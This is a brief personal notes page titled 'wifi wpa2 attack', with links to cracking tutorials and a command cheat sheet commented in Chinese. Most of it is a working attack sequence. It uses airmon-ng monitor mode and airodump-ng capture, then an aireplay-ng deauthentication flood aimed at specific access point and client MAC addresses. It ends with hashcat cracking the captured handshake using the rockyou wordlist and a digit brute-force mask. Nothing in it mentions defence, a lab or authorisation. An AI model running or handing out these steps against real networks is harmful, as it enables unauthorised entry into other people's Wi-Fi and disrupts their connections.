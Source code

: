 ### wifi wpa2 attack

created: 20220709 updated: 20220806 authors: alick97

---

- https://www.mzbky.com/1791.html
- https://zh.wikihow.com/%E4%BD%BF%E7%94%A8Kali-Linux%E7%A0%B4%E8%A7%A3WPA%E6%88%96WPA2%E6%97%A0%E7%BA%BF%E5%B1%80%E5%9F%9F%E7%BD%91
- [for mac os ] https://martinsjean256.wordpress.com/2018/02/12/hacking-aircrack-ng-on-mac-cracking-wi-fi-without-kali-in-parallels/
- [for mac os] https://louisabraham.github.io/articles/WPA-wifi-cracking-MBP.html


### 一些常见命令
#### 常用指令
```
# 启动监听 会创建新的net interface 后缀为 mon
airmon-ng start wlan0
# 停止监听 net interface
airmon-ng stop wlan0
# 关闭相关没开启mon之前用到interface的service
airmon-ng start check --kill


# 监听所有
airodump-ng wlan0mon

# 发起断开连接
sudo aireplay-ng -0 10 -a 24:CF:24:32:F2:4F -c 60:AB:67:E8:C6:44  wlo1mon
# 支持搜索5g 默认2.4g
sudo airodump-ng --band abg --output-format pcap -w t -c 10 --bssid 24:CF:24:32:F2:4F wlo1mon

# hashcat相关
cap2hccapx capture.cap capture.hccapx
hashcat -m 2500 capture.hccapx wordlist.txt
hashcat -m 2500 -a3 capture.hccapx ?d?d?d?d?d?d?d?d
sudo hashcat --deprecated-check-disable -m 2500 t2.hccapx ../dict/rockyou.txt
```

#### ubuntu关闭mon interface后 重启network
```
sudo systemctl restart NetworkManager
```